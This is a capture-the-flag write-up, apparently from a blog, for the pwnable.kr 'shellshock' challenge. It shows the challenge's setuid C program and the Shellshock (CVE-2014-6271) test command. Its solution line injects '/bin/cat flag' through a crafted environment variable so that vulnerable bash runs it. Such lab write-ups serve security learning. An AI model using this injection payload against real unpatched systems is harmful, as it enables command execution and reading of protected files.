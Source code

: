```yaml
---
title: "Binary Exploitation | Pwnable.kr - shellshock"
permalink: "binary-exploitation/pwnablekr/:title"
layout: post
---
```


> Challenge description:
>
> Mommy, there was a shocking news about bash.
> I bet you already know, but lets just make it sure :)



```c
#include <stdio.h>
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}
```

The challenge represents the very well known vulnerability `CVE-2014-6271` also known as `shellshock`. I won't go into details of how it works (see the references for more info).

we are given a `bash` binary at our working directory, to test if it's vulnerable to shellshock you can run the following command:

```
shellshock@pwnable:~$ env x='() { :;}; echo TEST' ./bash -c :
TEST
```

It printed `TEST` which means this bash is vulnerable to shellshock, It will exit silently if `bash` has been patched.

The challenge is just a call to `bash -c` so we can treat it as `./bash` and pass to it what we want to execute (/bin/cat flag).

# Solution:

```
shellshock@pwnable:~$ env x='() { :;}; /bin/cat flag' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
```

# References:

[https://fedoramagazine.org/shellshock-how-does-it-actually-work/](https://fedoramagazine.org/shellshock-how-does-it-actually-work/)

